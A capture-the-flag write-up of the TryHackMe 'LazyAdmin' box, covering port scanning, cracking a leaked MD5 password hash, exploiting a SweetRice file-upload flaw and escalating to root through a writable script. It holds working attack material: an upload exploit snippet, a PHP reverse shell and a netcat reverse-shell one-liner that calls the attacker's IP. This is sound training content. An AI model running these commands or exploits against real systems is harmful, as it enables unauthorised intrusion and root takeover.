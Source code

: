 # TryHackMe

------------------------------------

### IP: 10.10.97.171
### Name: LazyAdmin
### Difficulty: Easy

--------------------------------------------

![lazyadmin.jpeg](../assets/lazyadmin_assets/lazyadmin.jpeg)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.183.91
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-13 10:23 CDT
Nmap scan report for 10.10.183.91
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.74 seconds
```

Navigating to port 80 we find an apache landing page.

Kicking off some directory fuzzing we find a `/content` endpoint:

![lazyadmin_dirs.png](../assets/lazyadmin_assets/lazyadmin_dirs.png)

Checking it out we see it is running Sweet Rice:

![lazyadmin_sr.png](../assets/lazyadmin_assets/lazyadmin_sr.png)

Navigating to http://10.10.183.91/content/as/ we find the sign-in page:

![lazyadmin_signin.png](../assets/lazyadmin_assets/lazyadmin_signin.png)

Looking back at our directory scanning, we find a `/inc` page, and in that directory we find a mysql backup file:

![lazyadmin_backup.png](../assets/lazyadmin_assets/lazyadmin_backup.png)

Taking a look at the file we find the manager's password hash:

![lazyadmin_hash.png](../assets/lazyadmin_assets/lazyadmin_hash.png)

This appears to be MD5, so lets crack it using Hashcat:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt -m 0  
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

42f749ade7f9e195bf475f37a44cafcb:Password123              
                                                          
Session..........: hashcat
Status...........: Cracked
```

Nice, we can now login with `manager:Password123`. 

![lazyadmin_in.png](../assets/lazyadmin_assets/lazyadmin_in.png)

Looking for exploits for version 1.5.1 I find this arbitrary upload vulnerability: https://www.exploit-db.com/exploits/40716

Essentially the exploit is just logging in and uploading a PHP file, and then giving us the URL we can find the attachment at:

```python
<SNIP>
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass 
```

Lets give it a shot.

### Exploitation

First I'll grab a copy of PentestMonkey's php_reverse_shell.php and rename it to shell.php:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ mv php-reverse-shell.php shell.php5                   
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ subl shell.php5   
```

Note: There is likely some file blacklisting going on, so it's important to update the extension to .php5, rather than just .php

I'll then open it up and change the address I'll be listening on:

![lazyadmin_script_update.png](../assets/lazyadmin_assets/lazyadmin_script_update.png)

Next I'll use the exploit to upload the file:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ python sweetrice_upload.py
```

![lazyadmin_exploit1](../assets/lazyadmin_assets/lazyadmin_exploit1.png)

lazyadmin_exploit1.png

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.0.125] from (UNKNOWN) [10.10.183.91] 43616
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:11:19 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
THM-Chal
```

I can then grab the user.txt flag:

![lazyadmin_user_flag.png](../assets/lazyadmin_assets/lazyadmin_user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what we can do with elevated permissions, we find we can execute a perl script as root:

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Digging a bit deeper, we see we can't modify backup.pl directly, but the script calls another script, copy.sh,  which we do have write access over. And oddly enough that script is a reverse shell one liner (for some reason?). So we should just be able to update copy.sh to our IP address, execute backup.pl with sudo, and catch a reverse shell as root.

![lazyadmin_why.png](../assets/lazyadmin_assets/lazyadmin_why.png)

Update /etc/copy.sh
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.0.125 5554 >/tmp/f" > /etc/copy.sh
```

Set up a listener and execute backup.pl with sudo:
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```

And we catch a shell as root where we can grab the final flag:

![lazyadmin_root_flag.png](../assets/lazyadmin_assets/lazyadmin_root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------
